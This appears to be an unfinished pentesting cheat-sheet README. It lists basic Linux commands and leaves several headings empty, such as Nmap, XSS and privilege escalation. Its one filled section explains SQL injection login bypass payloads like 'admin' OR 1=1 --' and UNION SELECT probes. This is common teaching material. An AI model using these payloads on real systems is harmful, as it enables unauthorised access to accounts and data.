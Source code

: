# Table of Content

- [Useful Linux Command](#linux)
- [Reconnaissance](#recon)
   - [Nmap](#nmap)
   - [Nikto] (#nikto)
- [Web App](#webapp)
   - [SQL Injection](#sqlinj)
   - [XSS](#xss)
   - [Subdomain Takeover](#subdomain)
- [Privilege Escalation](#privesc)



<a name="linux"></a>
# Useful Linux Command

- ```ls```: List every file in a directory
- ```cd [directory]```: Enter a directory
- ```cd ..```: Go back up one directory
- ```cd ~```: go back to home directory
- ```pwd```: current folder
- ```strings [file]``` : Grab human readable strings from a binary file
- ```file [filename]```: Check a type of a file

<a name="recon"></a>
# Reconnaissance

<a name="nmap"></a>
## Nmap

<a name="nikto"></a>
## Nikto













<a name="webapp"></a>
# Web App 

<a name="sqlinj"></a>
## 1. SQL Injection

### 1.1 Login Form 
Normally, a POST request would takes two parameters (i.e. username and password) from the login form. Thus, the SQL command at the backend is look something like this:

```SQL
SELECT * from TABLE where USERNAME='USERNAME' AND PASSWORD = 'PASSWORD';
```
The statement above mainly ask the Database to select the user where the username and password are matched with the one we input to the login form. 

Now, if we put below payload into the username field, 

```SQL
admin' OR 1=1 --
```
the whole SQL statement would becomes this:

```SQL
SELECT * from TABLE where USERNAME='admin' OR 1=1 --AND PASSWORD='PASSWORD';
```
So, now the statement above now turns to select the user where username is admin or 1=1. Please pay attention that ```--``` means comment out the rest of the statement. Thus, it doesnt matter whether you have put in anything to the password field. Now, the database would return the whole list of user from their database. And normally, a session with the first user in the database would be created for us. If the statement above can't log you in, you may also try something like below as SQL syntax might slightly varies in different brands of SQL.

```SQL
admin' OR 1=1 #
admin" OR 1=1 #
admin" OR 1=1 --
```
If above can log you in and you want to login as other users, you may use the statement below:

```SQL
 ' UNION SELECT 1 --
```
Thus, the whole SQL statement would becomes:

```SQL
SELECT * from TABLE where USERNAME='' UNION SELECT 1 --AND PASSWORD='PASSWORD';
```


```SQL
 ' UNION SELECT 1,2 # 
 ' UNION SELECT 1,2,3 # 
```


<a name = "xss"></a>
## 2. XSS

<a name ="subdomain"></a>
## Subdomain Takeover

<a name ="privesc"></a>
# Privilege Escalation


